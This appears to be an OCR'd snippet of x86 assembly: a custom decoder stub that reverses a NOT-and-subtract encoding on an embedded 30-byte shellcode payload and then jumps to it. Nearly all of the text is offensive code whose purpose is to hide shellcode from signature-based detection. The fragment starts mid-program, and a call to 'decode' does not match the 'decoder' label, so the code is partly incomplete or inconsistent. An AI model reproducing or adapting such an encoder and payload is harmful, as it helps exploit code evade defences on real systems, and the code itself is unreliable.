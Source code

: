 ```
        xor ecx, ecx
        mov cl, len

decoder:
        ; get the byte in edi into eax
        mov al, byte [edi]

        ; check the size of the byte
        cmp al, 0x0A

        ; If it's less than our shift, jump to rollover
        jl short rollover

        ; not the byte
        ; sub 10 from it, then replace it
        not byte al
        sub al, 0x0C
        ;not byte al
        mov [edi], al

        jmp short next

rollover:
        ; We're here because the number is going to rollover if we add to it

        ; zero ebx, then add FF to it
        ; add one, to get 100 without nulls
        xor ebx, ebx
        mov bl, 0xff
        inc bx

        ; just subtract from bl
        sub bl, 0x0C

        ; not the byte
        ; add the shift and replace it
        not byte al
        mov esi, eax
        add ebx, esi
        mov [edi], bl

next:
        inc edi
        loop decoder
        jmp short encodedShellcode

call_shellcode:

        call decode
        encodedShellcode: db 0xc2,0x33,0xa3,0x8b,0x91,0x92,0x80,0x8b,0x8b,0x91,0x8a,0x85,0xc4,0x8b,0xc4,0xc4,0xc4,0xc4,0x6a,0x10,0xa3,0x6a,0x11,0xa0,0x6a,0x12,0x43,0xe8,0x26,0x73
        len: equ $-encodedShellcode
```
